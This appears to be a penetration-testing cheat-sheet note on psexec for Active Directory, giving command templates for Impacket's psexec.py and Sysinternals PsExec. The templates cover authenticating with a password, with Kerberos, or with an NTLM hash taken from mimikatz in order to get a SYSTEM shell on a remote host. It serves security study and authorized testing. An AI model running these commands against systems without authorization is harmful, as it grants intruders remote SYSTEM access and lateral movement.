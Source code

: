 ```yaml
---
tags:
  - active_directory
---
```

# psexec

Use administrative credentials to authenticate to an Active Directory machine as `nt authority\system`

**Requires:**

- User logging in to be a member of the `administrators` local group
- `ADMIN$` share must be available (default)
- File and printer sharing must be turned on (default)

**Performs the following**

1. Establishes a link to the hidden `ADMIN$` share, which corresponds to the `C:\Windows` directory on the remote system, via SMB.
2. Uses the Service Control Manager (SCM) to initiate the `PsExecsvc` service and set up a named pipe on the remote system.
3. Redirects the console’s input and output through the created named pipe for interactive command execution.

**Note:** `PsExec` eliminates the double-hop problem because credentials are passed with the command and generates an interactive logon session (Type 2).

## Capabilities

### Impacket

```powershell
# Authenticate with credentials
psexec.py '$USER:$PASS@$IP'
psexec.py '$DOMAIN/$USER:$PASS@$IP'

# Authenticate with kerberos
psexec.py $DOMAIN/$USER@$IP -k -no-pass

# Authenticate with hash
psexec.py -hashes :$NTHASH $USER@$IP
```

Note: In the hash example, we fill in the left side of the colon with zeros, and the right is the administrators NTLM hash pulled from `mimikatz`

### Sysinternals

```powershell
# Connect to the target
.\PsExec.exe \\$HOST -i -u $DOMAIN\$USER -p $PASS powershell

# Connect with system privileges
.\PsExec.exe \\$HOST -i -s -u $DOMAIN\$USER -p $PASS powershell
```
